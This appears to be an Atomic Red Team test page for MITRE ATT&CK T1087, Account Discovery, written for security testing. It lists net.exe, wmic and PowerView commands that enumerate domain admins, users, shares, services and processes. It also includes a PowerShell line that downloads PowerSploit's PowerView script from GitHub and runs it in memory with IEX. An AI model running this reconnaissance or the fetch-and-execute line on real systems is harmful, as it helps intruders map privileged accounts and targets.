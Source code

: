 ﻿## Account Discovery

MITRE ATT&CK Technique: [T1087](https://attack.mitre.org/wiki/Technique/T1087)

## Test Script

[Discovery](https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/Discovery.bat)

### Net.exe

Domain Group Enumeration:

    net group "domain admins" /domain

Domain User Enumeration:

    net user <username> /domain

Local Group Enumeration:

    net localgroup "administrators"

Local User Enumeration:

    net user

Input:

    net use

Input:

    net share

Input:

    net view

Input:

    net accounts

## wmic.exe

### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic useraccount list

Input:

    wmic startup list brief

Input:

    wmic share list

Input:

    wmic service get name,displayname,pathname,startmode

Input:

    wmic process list brief

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:"192.168.0.1" service where (caption like "%sql server (%")

Input:

    get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"
    
### PowerShell

(https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

    PS> Import-Module PowerView.ps1
        #Or load directly from the raw github content:
    PS> (New-Object System.Net.Webclient).downloadstring(“https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1”) | IEX

    PS> Get-NetGroup *Admins*
    PS> Get-NetGroup *Citrix*
    PS> Get-NetComputer *Win7* | Select samaccountname
    PS> Get-NetUser *Admins*
    PS> Get-NetUser | Where {$_.samaccountname –eq “<username>”}
    PS> Get-NetUser -filter samaccountname=<username>
